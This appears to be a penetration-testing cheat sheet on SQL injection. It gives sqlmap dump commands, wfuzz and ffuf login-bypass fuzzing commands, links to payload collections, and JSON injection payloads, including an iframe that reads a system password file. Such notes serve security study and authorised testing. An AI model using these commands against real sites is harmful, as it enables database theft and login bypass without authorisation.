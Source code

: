 # SQL Injection

- [SQL Injection](#sql-injection)
  - [SQLMaps](#sqlmaps)
    - [SQLMap Level](#sqlmap-level)
    - [SQLmap WebSocket](#sqlmap-websocket)
    - [SQLmap Cheatsheet](#sqlmap-cheatsheet)
  - [Login forms](#login-forms)
    - [Json injection](#json-injection)
  - [Any forms](#any-forms)
    - [Json injection](#json-injection-1)

## SQLMaps

SQLMap can be used to detect SQL Injection.

```bash
sqlmap -u "http://<URL>/" --batch --dump --forms
```

### SQLMap Level

- level 1: By default
- level 2: Test HTTP Cookie header
- level 3: Test HTTP User-Agent/Referer headers 

### SQLmap WebSocket

https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

### SQLmap Cheatsheet

> https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

## Login forms

Techniques and tools used to bypass login forms using SQL Injection. The wordlist can be found [here](./files/sqli_login_form.txt). It is taken from HackTricks.

> **SQL Login Bypass**
> Hacktricks: https://book.hacktricks.xyz/pentesting-web/login-bypass
> PayloadsAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass
> **NoSQL Login Bypass**
> Hacktricks: https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass

**Using wfuzz**

Keyword `FUZZ` is used to determine the parameter that will be used.

```bash
wfuzz -c -z file,sqli.req -d "username=FUZZ&password=pass" -u "http://<IP>/login"
```

Useful options
- `-H`: Used to set custom header
- `--hc/hl/hw/hh`: Hide responses with the specified code/lines/words/chars
- `--sc/sl/sw/sh`: Show responses with the specified code/lines/words/chars
- `-d`: request datas

**Using ffuf**

```bash
ffuf -u http://<URL>/login -c -w sqli.req -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'
```

Useful options
- `-H`: Used to set custom header
- `-d`: request datas

**Using SQLmap**

Load a file with `-r` option.

```bash
sqlmap -r sqli.req -u "http://<URL>/login" --data "username=admin&password=pass"
```

### Json injection

1. Replace content-type: `Content-Type: application/json`
2. Send json payload: https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass

## Any forms

### Json injection

```bash
"user":"<a href='http\\\\:someurl.com'>ACTIVATE USER HERE</a>"
"user":"<img src=https\\://dummyimage.com/200x200/ff00d5&text=HAHAHA/>"
"title":"<iframe src=file:///ect/passwd height=800px width=600px></iframe>"
```

> **JSON Injection:** https://lisandre.com/archives/2286
